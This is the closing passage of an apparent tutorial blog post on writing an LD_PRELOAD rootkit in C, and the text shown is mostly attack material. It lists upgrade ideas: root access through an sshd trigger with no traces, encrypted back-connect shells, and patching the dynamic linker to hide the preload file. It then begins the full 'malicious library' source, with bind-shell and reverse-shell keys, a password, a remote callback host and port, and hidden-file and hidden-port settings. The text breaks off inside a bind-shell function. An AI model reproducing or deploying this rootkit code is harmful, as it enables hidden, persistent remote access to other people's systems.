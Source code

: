 ```
drwxr-xr-x   2 root root   4.0K Jun  1 12:18 ld.so.conf.d
-rw-r--r--   1 root root    267 Oct 22  2015 legal
-rw-r--r--   1 root root     27 Jan  7  2015 libao.conf
-rw-r--r--   1 root root    191 Jan 18  2016 libaudit.conf
-----snip-----
```
11. Finally, `/etc/ld.so.preload` is hidden and this is good because I think on most systems it wouldn't exist. 

## Potential Upgrades for the Library
If you liked this post, and you want to take the library further, I have some ideas on what can be improved:
+ Get rid of the `syslog` trigger, and develop a trigger for the `sshd` service itself, that way we can get on the box as root without any privesc bread crumbs
+ Code up an `openssl` back connect client/server program so we can get encrypted comms
+ Do away with the magic port number hook and instead implement a magic `GID` which you can set as root on the processes you run
+ Extra Bonus: Patch the dynamic linker so that it doesn't reference /etc/ld.so.preload but silently references a different directory which you have hidden. The dynamic linker should still report that it checks /etc/ld.so.preload but we will know better :) 

## Conclusion
With some creative thinking and copy/paste, we were able to do quite a lot of bad things with some simple C. A lot of systems programming is done in C. If we want to get good at binary exploitation, reverse engineering, vulnerability research, etc., we're going to have to be comfortable with C. 

Outside of my solution for hiding from `netstat`, a lot of these ideas have been done before and I leaned heavily on reference material. I'll include a resources section at the bottom. 

## Complete Malicious Library 
```c
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
#include <string.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <dlfcn.h>
#include <dirent.h>
#include <arpa/inet.h>
//bind-shell definitions
#define KEY_4 "notavaliduser4"
#define KEY_6 "notavaliduser6"
#define PASS "areallysecurepassword1234!@#$"
#define LOC_PORT 65065
//reverse-shell definitions
#define KEY_R_4 "reverseshell4"
#define KEY_R_6 "reverseshell6"
#define REM_HOST4 "192.168.1.217"
#define REM_HOST6 "::1"
#define REM_PORT 443
//filename to hide
#define FILENAME "ld.so.preload"
//hex represenation of port to hide for /proc/net/tcp reads
#define KEY_PORT "FE29"

int ipv6_bind (void)
{
    struct sockaddr_in6 addr;
    addr.sin6_family = AF_INET6;
    addr.sin6_port = htons(LOC_PORT);
```